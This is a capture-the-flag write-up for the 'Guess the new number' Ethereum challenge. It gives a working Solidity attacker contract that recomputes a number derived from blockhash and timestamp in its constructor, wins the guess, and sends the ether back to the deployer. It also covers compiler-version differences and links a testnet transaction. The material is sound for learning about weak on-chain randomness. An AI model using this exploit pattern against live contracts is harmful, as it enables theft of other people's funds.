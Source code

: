 # Guess the new number

## Objectives

> The number is now generated on-demand when a guess is made.

## Solution

We just need to code a contract that generates the number the exact same way prior to guessing it. ~~For some reason that I don't quite understand though, the `guess()` call simply would not go through until I tried to do it through the constructor of the contract.~~ I simply didn't have a fallback function to receive the funds, so it worked in the constructor of the contract because before finalizing constructor execution, the funds would have already been sent to my address, but if a fallback function is added, then the funds can be properly received by the contract and the transactions won't fail.

I coded the contract as follows:

```js
// SPDX-License-Identifier: MIT
pragma solidity >=0.7.5 <0.8.0;

contract GuessTheNewNumberAttack {
    constructor(address payable challenge) public payable {
        // low-level call success
        bool success;

        // check that we're forwarding the correct amount of funds
        require(msg.value == 1 ether, 'msg.value should be at least 1 ether');

        // get answer
        uint8 answer = uint8(uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))));
        
        // make the guess
        (success,) = challenge.call{value:1 ether}(abi.encodeWithSignature("guess(uint8)", answer));
        require(success, "guess failed");

        // send funds back to my account
        (success,) = msg.sender.call{value:address(this).balance}("");
        require(success, 'call failed');
    }
}
```

On deployment, the guess was successful (as it runs in the constructor) and the balance is sent back to my wallet. By simply deploying this contract, the challenge is solved.

This can be solved similarly in the same version of the solidity compiler that the challenge is originally using (0.4.21), but given that I'm using a newer version, there's some small nuances due to changes in the solidity compiler since then:

- `block.blockhash()` has been replaced by `blockhash()`
- `now` has been deprecated in favor of `block.timestamp`
- Now it's not possible to pass multiple parameters to the `keccak256()` hash function, so we must use `abi.encodePacked()` before passing it to `keccak256()`
- It is not possible to cast directly from a hash to uint8, so we must first pass through a type that has the same size in bytes as the value returned by the hash function, so we first cast to uint256 and then to uint8.

## Submission transaction

https://ropsten.etherscan.io/tx/0x9127996a2073acf24ecbfbd3b7f2eeba379c91815658b98e641c7035060a1eba
